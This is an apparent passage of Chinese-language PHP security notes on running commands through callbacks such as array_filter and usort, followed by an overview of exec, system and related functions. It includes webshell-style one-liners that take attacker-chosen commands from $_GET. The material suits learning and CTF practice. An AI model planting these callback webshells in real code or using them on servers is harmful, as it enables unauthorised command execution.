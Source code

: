 相当于执行了两次whoami命令



### array_filter

参数位置换了一下

```php
<?php
function cmd($n)
{
    system($n);
}
$func = 'cmd';
$cmd = ['whoami'];
# 第一个参数为传入的参数数组,第二个参数为回调函数
$b = array_filter($cmd, $func);
```



### usort、uasort

PHP<7

```php
<?php
usort($_GET,'system');    //xxx.php?1=1&2=whoami
usort(...$_GET);  //xxx.php?1[]=test&1[]=phpinfo();&2=assert
```



# 命令执行函数

## 相关函数

```php
# 默认无回显
exec()
shell_exec()和反引号
popen()，proc_open()

# 默认有回显
system()
passthru()
```

## exec()

```php
string exec ( 命令，结果数组 ，状态码 )
```

```php
<?php
exec("whoami",$output,$return_var);
# 默认无回显，要想获得结果，就要输出第二个参数
print_r($output);
echo "\n";
# 命令执行成功的状态码为0
print_r($return_var);
```
